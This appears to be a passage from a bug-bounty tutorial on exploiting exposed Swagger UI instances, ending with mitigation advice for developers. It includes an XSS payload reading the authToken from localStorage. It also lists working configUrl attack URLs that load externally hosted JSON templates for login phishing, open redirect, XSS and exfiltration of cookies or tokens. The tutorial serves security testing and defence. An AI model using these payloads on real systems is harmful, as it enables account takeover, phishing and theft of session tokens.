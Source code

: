 If a Swagger UI instance in Jamf Pro is vulnerable to XSS, you can use the following payload to extract the auth token:

alert(localStorage.getItem('authToken'))
Using this XSS vector an attacker could extract and exfiltrate the authToken or other sensitive data stored in the browser’s localStorage.

Dom XSS & HTML Injection & Open Redirect
If you come across an exposed Swagger UI instance, use my custom JSON template to manually test for DOM XSS, HTML injection and open redirect vulnerabilities. Even if the XSS doesn’t trigger, HTML injection or open redirect issues are still valid findings and often accepted by major bug bounty platforms.

# 1. Loads a custom Swagger login form template for login phishing 
https://site.com/?configUrl=https://raw.githubusercontent.com/coffinxp/swagger/refs/heads/main/login.json

# 2. Tests open redirect behavior via a redirecting login config
https://site.com/?configUrl=https://raw.githubusercontent.com/coffinxp/swagger/refs/heads/main/rlogin.json

# 3. Triggers a basic XSS payload to check for DOM-based vulnerabilities
https://site.com/?configUrl=https://raw.githubusercontent.com/coffinxp/swagger/refs/heads/main/xsstest.json

# 4. Executes a script to exfiltrate cookies or auth tokens from localStorage
https://site.com/?configUrl=https://raw.githubusercontent.com/coffinxp/swagger/refs/heads/main/xsscookie.json

https://raw.githubusercontent.com/coffinxp/swagger/refs/heads/main/login.json

https://raw.githubusercontent.com/coffinxp/swagger/refs/heads/main/rlogin.json

https://raw.githubusercontent.com/coffinxp/swagger/refs/heads/main/xsscookie.json
GitHub - coffinxp/swagger
Contribute to coffinxp/swagger development by creating an account on GitHub.
github.com

Mitigation: How Developers Can Prevent this Vulnerabilities
Misconfigured Swagger UI can expose serious vulnerabilities. Here are the most effective steps developers should take to secure it and prevent abuse.

Disable Swagger UI in production environments
Avoid exposing Swagger documentation on live or customer-facing systems by disabling it in production builds.
Require authentication for accessing Swagger UI
Protect Swagger routes (/swagger, /api-docs, etc.) using Basic Auth, token-based auth, or IP whitelisting to restrict public access.
Validate and sanitize query parameters like ?url=
Use a strict whitelist of allowed domains or remove support for remote schema loading entirely to prevent XSS and open redirects.
Use the latest stable version of Swagger UI
Stay updated with the newest Swagger releases to patch known vulnerabilities and benefit from improved input sanitization.
Apply consistent input validation and escaping
Sanitize any dynamic data rendered within Swagger UI templates, especially values passed through query strings or user-defined schemas.
You can also watch this video where I showed the complete practicle of this method:
